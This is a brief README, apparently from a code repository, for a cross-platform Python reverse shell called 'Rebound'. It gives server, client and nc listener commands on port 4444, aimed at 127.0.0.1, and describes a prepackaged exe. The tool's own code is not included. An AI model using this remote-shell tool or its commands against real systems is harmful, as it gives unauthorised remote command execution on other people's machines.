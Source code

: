 # Rebound

This is a script for a python-based rebound shell. Unlike other scripts, which only work for Linux, it also works for Windows.<br>
There is also a packaged exe file that can be run directly without a python environment, with the default port 4444<br>

# Usage

### server

```shell
python server_shell.py
```
*The default port is 4444. You can also change the code to the port you want.*<br>
or
```shell
server_shell.exe
```
**If you change the port, you need to repackage it.**

### client

```shell
python client.py -t 127.0.0.1 -p 4444
```
*-t followed by the destination IP, -p followed by the port, must be consistent with the server.*

**You can also use nc to listen**
```shell
nc 127.0.0.1 4444
```

# Note

**The script can only execute a single command and echo.**
**Simply executing the cd command does not switch directories; after it is executed, the directory is still where the script is.**